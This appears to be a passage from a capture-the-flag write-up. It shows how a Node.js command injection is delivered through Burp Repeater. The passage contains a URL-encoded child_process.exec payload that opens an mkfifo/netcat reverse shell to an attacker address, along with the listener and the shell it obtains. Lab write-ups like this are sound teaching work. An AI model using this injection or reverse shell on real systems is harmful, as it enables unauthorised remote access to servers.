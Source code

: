 ```none
GET / HTTP/1.1
Host: [target-ip]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: token=this_is_not_real
Upgrade-Insecure-Requests: 1
If-None-Match: W/"6e3-y+mlEbLwniKG8z0CvYDjgSkn4ZQ"
```

Now we can disable the intercept/proxy and send the raw request to Repeater.  In Repeater we can easily edit the request to try out our payload as POST instead of GET.  Being familiar with the Repeater in Burp was super helpful for this.  

Using URL-encode 'key characters' on the exec command in our final payload makes it ready to be submitted in a post request otherwise it'll throw an error.

```none
POST /api/items?cmd=require("child_process").exec("rm+-f+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+[attacker-ip]+[port]+>/tmp/f") HTTP/1.1
```

To open a connection with netcat we need to start a listener on our end.

```none
🎃 nc -lvnp 4444
Listening on 0.0.0.0 4444
```

Now let's send over our payload with Burp.  
*click*

```none
🎃 nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on [ip] 33310
/bin/sh: 0: can't access tty; job control turned off
$
```

Our payload request worked and now we have shell access as `user`. :space_invader: 

```none
$ whoami
user
```

The challenge says we're looking for the contents of `user.txt`.  We can use the find command to look for the file by name.  Using `-print 2>/dev/null` sends permission denied spam away running it on the root directory `/`.

```none
$ find / -iname "user.txt" -print 2>/dev/null
/home/user/user.txt
```
